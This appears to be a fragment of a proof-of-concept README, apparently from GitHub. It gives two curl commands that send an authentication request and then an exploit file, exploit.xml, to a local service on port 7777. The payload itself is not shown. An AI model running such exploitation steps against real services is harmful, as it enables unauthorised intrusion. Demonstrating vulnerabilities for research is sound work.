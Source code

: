 # Authentication request

curl -d @xml.txt http://localhost:7777/

# Exploitation

curl -d @exploit.xml http://localhost:7777/
